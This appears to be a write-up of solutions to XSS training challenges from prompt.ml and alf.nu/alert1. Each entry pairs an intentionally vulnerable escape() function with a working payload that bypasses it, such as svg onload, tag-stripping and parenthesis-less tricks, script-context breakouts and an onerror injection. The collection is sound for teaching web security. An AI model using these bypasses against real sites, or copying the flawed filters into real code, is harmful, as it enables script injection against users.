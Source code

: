 # prompt.ml

### 1. Warmup

- Task
 
```js
function escape(input) {
    // warm up
    // script should be executed without user interaction
    return '<input type="text" value="' + input + '">';
} 
```

- Solution

```js
"><svg onload=prompt(1)> <!--
```

### 2. Tag stripping

- Task

```js
function escape(input) {
    // tags stripping mechanism from ExtJS library
    // Ext.util.Format.stripTags
    var stripTagsRE = /<\/?[^>]+>/gi;
    input = input.replace(stripTagsRE, '');

    return '<article>' + input + '</article>';
}
```

- Solution

```js
<svg onload=prompt(1) // 
```

### 3. Parenthesis-less

- Task

```js
function escape(input) {
    //                      v-- frowny face
    input = input.replace(/[=(]/g, '');

    // ok seriously, disallows equal signs and open parenthesis
    return input;
}     
```

- Solution

```js
<script>eval.call`${'prompt\x281\x29'}`</script>
```

# alf.nu/alert1

### 1. Warmup

-Task

```js
function escape(s) {
  return '<script>console.log("'+s+'");</script>';
}
```

-Solution

```js
",alert(1),"
```

### 2. Adobe

-Task

```js
function escape(s) {
  s = s.replace(/"/g, '\\"');
  return '<script>console.log("' + s + '");</script>';
}
```

- Solution

```js
\");alert(1)//
```

### JSON

- Task

```js
function escape(s) {
  s = JSON.stringify(s);
  return '<script>console.log(' + s + ');</script>';
}
```

-Solution

```js
</script><script>alert(1)//
```

### Markdown

- Task

```js
function escape(s) {
  var text = s.replace(/</g, '&lt;').replace(/"/g, '&quot;');
  // URLs
  text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
  // [[img123|Description]]
  text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
  return text;
}
```

- Solution

```js
[[x|http://onerror=javascript:alert(1)//]]
```
